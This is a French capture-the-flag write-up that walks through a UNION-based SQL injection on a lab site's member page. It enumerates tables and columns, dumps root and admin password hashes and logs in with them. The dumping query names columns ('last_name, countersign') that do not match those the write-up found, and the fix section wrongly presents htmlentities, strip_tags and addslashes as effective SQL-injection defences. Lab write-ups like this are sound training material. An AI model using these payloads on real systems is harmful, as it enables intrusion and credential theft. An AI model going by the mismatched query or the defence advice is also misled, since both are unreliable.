 # member injection SQL
Recupere des datas grace a une injection SQL

## Comment obtenir le flag
* Se rendre a `ip`/index.php?page=member
* Si on submit vide, on obtient:
- *You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*
* En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
- On tombe sur : `First name: Flag` / `Surname : GetThe`
- Notre bible pour les requetes : *http://www.sqlinjection.net/column-names/*

- `TRUE` permet de valider l'expression précédente.
- `UNION` permet de coupler les résultats d'une première requête avec une seconde dont les composantes doivent être les mêmes.

* `TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`
Notamment, la table:
```
table_schema: Member_Brute_Force
table_name: db_default
```

* `TRUE UNION SELECT table_name, column_name FROM information_schema.columns`
Notamment:
```
table_name: db_default
column_name: username
column_name: password
```

* Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
- `TRUE UNION SELECT last_name, countersign FROM Member_Brute_Force.db_default`
Nous obtenons pour les utilisateurs suivants :
```
username: root
password: 3bf1114a986ba87ed28fc1b5884fc2f8

username: admin
password: 3bf1114a986ba87ed28fc1b5884fc2f8
```

* Soit en décrypté (md5): *shadow* (les 2 sont les mêmes).
* En allant sur la page de login (*`ip`/index.php?page=signin*), et en testant les combinaisons trouvées, nous retombons sur le flag !

## Fix possible
Les methodes suivantes permettent efficacement de se proteger contre les injections lorsque des champs sont remplis par l'user :
- `mysql_real_escape_string` (concernant les db),
- `htmlentities()`,
- `htmlspecialchars()`,
- `strip_tags()`,
- `addslashes()`,
- et globalement en utilisant la PDO
Il est aussi de bon usage lorsqu'une requete est faite de vérifier deux clés, lorsque cela est possible, afin d'autoriser l'accès au contenu (ex : le champs demandé est le nom d'utilisateur, mais en backend le code vérifie aussi l'identifiant de l'utilisateur loggé).
Vérifier que la string envoyée ne contient pas d'espaces si cela n'est pas nécessaire
Parser le retour de la requête plutot qu'en envoyer l'intégralité du contenu

## Explications
Il est possible de faire une injection SQL en utilisant `UNION` dans le but d'exposer l'intégralité des bases de données du site et leur contenu.
Cela permet de découvrir notamment et en particulier les mots de passe enregistrés des admin/root.
